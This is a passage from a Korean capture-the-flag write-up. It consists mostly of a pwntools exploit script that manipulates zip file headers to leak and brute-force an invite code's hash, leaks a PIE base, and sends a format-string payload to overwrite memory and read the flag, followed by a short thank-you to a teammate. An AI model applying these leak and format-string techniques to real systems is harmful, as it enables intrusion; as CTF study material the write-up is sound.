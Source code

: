 ```python
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'? ', password)

def crackhash(h : str):
    v5 = 0xCBF29CE484222325
    for i in range(-9, 0):
        v5 = 0x100000001B3 * (ord(invite_code[i]) ^ v5)

    for i in range(256):
        v6 = (0x100000001B3 * (i ^ v5)) & ((1 << 64) - 1)
        if hex(v6)[2:] == h:
            return chr(i)

start_num = -516 + 14 - 9
tb = bytearray(open('./tb.zip', 'rb').read())
ex = bytearray(open('./ex.zip', 'rb').read())
invite_code = ""

for i in trange(20):
    num = start_num - (515 * i)
    a = p32(num & 0xffffffff)
    tb[26:30] = a
    uploadfile(15, tb.hex().encode())
    h = listfiles(15, i + 1)
    invite_code += crackhash(h)

invite_code = invite_code[-20:]
print(invite_code)

#invite_code = b"yelling-pixel-corals"
#invite_code = b'terrible-red-busses'

createuser(b'csh', b'csh')
uploadfile(0, ex.hex().encode())
viewfile(0, b'csh', 0)
pie_base = int(p.recvuntil(b' ')[:-1], 16) - 0x5040
wantsetadd = pie_base + 0x5040 + 0x10
print(hex(pie_base))

subprocess.run(['rm', 'ex2.txt'])
ex2 = open('./ex2.txt', 'wb')
payload = fmtstr_payload(14, {wantsetadd:1})
ex2.write(payload)
ex2.close()
subprocess.run(['rm', 'ex2.zip'])
subprocess.run(['zip', '-X', '-0', 'ex2.zip', 'ex2.txt'])
ex2 = open('./ex2.zip', 'rb').read()
print(ex2)
uploadfile(0, ex2.hex().encode())
print(hex(wantsetadd))
viewfile(0, b'csh', 1)
viewflag(0, b'csh')
p.interactive()

# zip -X -0 tb.zip tb.txt
```

<br>
- 후일담

`Finder(이재영)`가 아주 중요한 아이디어를 불어넣어 줘서 이 문제를 풀었다 해도 과언이 아닐 정도로 저에게 많은 도움을 주었습니다. 이 글을 빌러 고맙다는 말을 전합니다.